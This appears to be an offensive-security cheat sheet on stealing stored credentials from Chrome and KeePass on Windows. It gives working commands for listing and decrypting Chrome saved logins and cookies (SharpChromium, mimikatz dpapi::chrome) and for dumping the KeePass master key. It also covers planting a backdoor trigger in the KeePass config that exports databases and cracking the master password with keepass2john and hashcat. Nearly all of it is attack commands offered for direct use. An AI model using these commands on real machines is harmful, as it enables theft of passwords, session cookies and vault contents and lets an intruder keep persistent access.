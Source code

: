 ### Chrome
#### List SQLlite database
- A non-null Login Data file is a good indication that credentials are saved in here
```
ls "$env:LOCALAPPDATA\google\chrome\USERDA~1\default\"

ls C:\Users\<USER>\AppData\Local\Google\Chrome\User Data\Default
```

#### Decrypt data
- https://github.com/djhohnstein/SharpChromium
```
.\SharpChromium.exe logins
```

#### Decrypt Cookies
```
dpapi::chrome /in:"C:\Users\<USER>\AppData\Local\Google\Chrome\User Data\Default\Network\Cookies" /unprotect
dpapi::chrome /in:"C:\Users\<USER>\AppData\Local\Google\Chrome\User Data\Default\Network\Cookies" /masterkey:<KEY>
```

## KeePass
- https://github.com/GhostPack/KeeThief
#### Enumeration
```
type %APPDATA%\KeePass\KeePass.config.xml
tasklist | findstr /I keepass
dir /s "C:/" | findstr "KeePass"
Get-Process keepass
```

#### Dump KeePass Masterkey
```
Get-KeePassDatabaseKey -Verbose
```

#### Create backdoor in config
```
Find-KeePassconfig -Path $env:appdata\KeePass
Get-KeePassConfigTrigger -Path $env:appdata\KeePass\KeePass.config.xml -Verbose
Add-KeePassConfigTrigger -Path $env:appdata\KeePass\KeePass.config.xml -Verbose -ExportPath C:\users\public\
```

#### Guess master password
- Remove the username
```
keepass2john Passwords.kdbx > hash.txt
hashcat -m 13400 -a 0 hash.txt rockyou.txt -r dive.rule
```
